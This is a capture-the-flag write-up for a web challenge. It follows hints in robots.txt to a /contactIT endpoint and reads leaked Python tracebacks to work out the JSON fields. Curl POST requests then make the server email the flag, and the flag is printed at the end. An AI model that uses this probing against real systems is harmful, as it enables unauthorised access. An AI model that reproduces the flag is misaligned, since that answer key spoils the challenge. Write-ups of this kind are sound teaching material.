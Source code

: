 
Visit the website and we get "Website down! please contact IT for more information"

Try robots.txt

```sh
DISALLOW     contactIT
DISALLOW     countdown
```

/contactIT more interesting since the webpage told use to do that

make  a request to /contactIT

We get 
```sh
Post:Json Request Only
```

So add header
`Content-Type: application/json`
and in POST body just add {} and send the request

We get an error back

```python
  File "/app/webapp.py", line 26, in submitted
    f.checkResponds(messege)
  File "/app/floaty.py", line 17, in checkResponds
    if "flag" in responds:
```

So its probably checking for `messege` with value `flag` in JSON body

```sh
curl http://3.23.56.243:9008/contactIT -H "Content-type: application/json" -X POST -d '{"messege":"flag"}'
```

We get error back in response

```python
  File "/app/webapp.py", line 26, in submitted
    f.checkResponds(messege)
  File "/app/floaty.py", line 18, in checkResponds
    self.sendFlag()
  File "/app/floaty.py", line 27, in sendFlag
    server.sendmail(self.email, self.sendto, self.flag)
  File "/usr/local/lib/python3.12/smtplib.py", line 880, in sendmail
    for each in to_addrs:
TypeError: 'NoneType' object is not iterable
```

We see `server.sendmail()` so server is trying to send mail. In description they tell us that
`Don't blow up their inbox though :) and make sure you clearly tell them what you want.`

So maybe we need to provide our email

```sh
curl http://3.23.56.243:9008/contactIT -H "Content-type: application/json" -X POST -d '{"messege":"flag","email":"ourEmail"}'
```

And we get the flag in our email

flag : texsaw{7h15_15_7h3_r34l_fl46_c0n6r47ul4710n5}